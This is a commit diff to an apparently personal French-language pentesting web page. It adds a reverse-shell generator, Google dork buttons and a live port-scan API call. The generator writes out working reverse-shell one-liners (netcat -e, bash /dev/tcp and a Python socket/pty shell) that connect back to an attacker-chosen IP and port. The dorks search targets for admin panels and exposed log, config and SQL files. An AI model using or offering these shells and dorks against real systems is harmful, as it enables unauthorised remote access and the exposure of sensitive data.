

Before and after one commit to papisadama226-cmyk/Pantesting-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 316-1071 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -21,7 +21,7 @@
             padding: 15px;
             margin-bottom: 15px;
         }
-        input, button {
+        input, select, button {
             width: 100%;
             padding: 10px;
             margin-top: 10px;
@@ -29,9 +29,21 @@
             border: 1px solid #00ff66;
             color: #00ff66;
             box-sizing: border-box;
+            border-radius: 4px;
+        }
+        select {
+            cursor: pointer;
         }
         button:active { background: #00ff66; color: #000; }
-        #output { background: #000; padding: 10px; border-radius: 5px; min-height: 50px; white-space: pre-wrap; }
+        #output {
+            background: #000;
+            padding: 10px;
+            border-radius: 5px;
+            min-height: 80px;
+            white-space: pre-wrap;
+            border: 1px solid #30363d;
+            font-size: 14px;
+        }
     </style>
 </head>
 <body>
@@ -46,9 +58,28 @@
     </div>
 
     <div class="card">
-        <h3>Scan de Port Distant</h3>
+        <h3>Scan de Port Distant (Vercel API)</h3>
         <input type="text" id="targetInput" placeholder="Ex: scanme.nmap.org ou IP">
         <button onclick="startScan()">Lancer le Scan</button>
+    </div>
+
+    <div class="card">
+        <h3>Générateur de Reverse Shell</h3>
+        <input type="text" id="attackerIp" placeholder="Ton IP d'écoute (Ex: 10.10.10.10)">
+        <input type="number" id="attackerPort" placeholder="Ton Port (Ex: 4444)" value="4444">
+        <select id="shellType">
+            <option value="nc">Netcat traditional</option>
+            <option value="bash">Bash -i</option>
+            <option value="python">Python Short</option>
+        </select>
+        <button onclick="generateShell()">Générer le Shell</button>
+    </div>
+
+    <div class="card">
+        <h3>Google Dorks Rapides</h3>
+        <input type="text" id="dorkTarget" placeholder="Ex: cible.com">
+        <button onclick="launchDork('admin')">Trouver panels Admin</button>
+        <button onclick="launchDork('files')">Fichiers sensibles (Log, Conf)</button>
     </div>
 
     <div class="card">
@@ -62,7 +93,7 @@
             navigator.serviceWorker.register('sw.js');
         }
 
-        // Fonctions de l'outil 1
+        // --- Fonctions Outil 1 ---
         function encodePayload() {
             let input = document.getElementById('payloadInput').value;
             document.getElementById('output').innerText = btoa(input);
@@ -72,25 +103,68 @@
             document.getElementById('output').innerText = encodeURIComponent(input);
         }
 
-        // Fonction de l'outil 2 (Connexion à ton futur back-end)
+        // --- Fonction Outil 2 (Connexion API Serverless Vercel) ---
         async function startScan() {
-            let target = document.getElementById('targetInput').value;
+            let target = document.getElementById('targetInput').value.trim();
             if(!target) return alert("Met une cible bro !");
 
-            document.getElementById('output').innerText = `Scan en cours sur ${target}...`;
+            document.getElementById('output').innerText = `Scan réseau en cours sur ${target} via l'API Vercel...\n(Ports testés: 22, 80, 443, 3306, 8080)`;
 
             try {
-                // Ici tu appelleras ton API Node.js/Python hébergée sur le cloud
-                // const response = await fetch(`https://ton-api.northflank.app/scan?target=${target}`);
-                // const data = await response.json();
-                // document.getElementById('output').innerText = data.result;
+                // Utilisation du chemin relatif car l'API est sur le même projet Vercel
+                const response = await fetch('/api/scan', {
+                    method: 'POST',
+                    headers: {
+                        'Content-Type': 'application/json'
+                    },
+                    body: JSON.stringify({ target: target })
+                });
 
-                setTimeout(() => {
-                    document.getElementById('output').innerText = `[Simulé] Port 80: OUVERT\nPort 443: OUVERT\nScan terminé pour ${target}`;
-                }, 2000);
+                const data = await response.json();
+
+                if (data.error) {
+                    document.getElementById('output').innerText = `Erreur: ${data.error}`;
+                } else {
+                    document.getElementById('output').innerText = `[RÉSULTAT SCAN - ${data.target}]\n\n${data.result}`;
+                }
             } catch (err) {
-                document.getElementById('output').innerText = "Erreur de connexion au serveur d'attaque.";
+                document.getElementById('output').innerText = "Erreur fatale: Impossible de joindre la fonction API Vercel. Vérifie tes fichiers et le déploiement.";
             }
+        }
+
+        // --- Fonction Outil 3 (Reverse Shell) ---
+        function generateShell() {
+            let ip = document.getElementById('attackerIp').value.trim() || "10.10.10.10";
+            let port = document.getElementById('attackerPort').value.trim() || "4444";
+            let type = document.getElementById('shellType').value;
+            let result = "";
+
+            if (type === "nc") {
+                result = `nc -e /bin/sh ${ip} ${port}`;
+            } else if (type === "bash") {
+                result = `bash -i >& /dev/tcp/${ip}/${port} 0>&1`;
+            } else if (type === "python") {
+                result = `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("${ip}",${port}));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`;
+            }
+
+            document.getElementById('output').innerText = result;
+        }
+
+        // --- Fonction Outil 4 (Google Dorks) ---
+        function launchDork(type) {
+            let target = document.getElementById('dorkTarget').value.trim();
+            let query = "";
+
+            if (type === 'admin') {
+                query = target ? `site:${target} inurl:admin | inurl:login` : `inurl:admin | inurl:login`;
+            } else if (type === 'files') {
+                query = target ? `site:${target} ext:log | ext:cfg | ext:txt | ext:sql` : `ext:log | ext:cfg | ext:txt | ext:sql`;
+            }
+
+            let url = `https://www.google.com/search?q=${encodeURIComponent(query)}`;
+            // Ouvre la recherche Google dork dans un nouvel onglet de ton Safari iPhone
+            window.open(url, '_blank');
+            document.getElementById('output').innerText = `Dork lancé dans Safari :\n${query}`;
         }
     </script>
 </body>
```
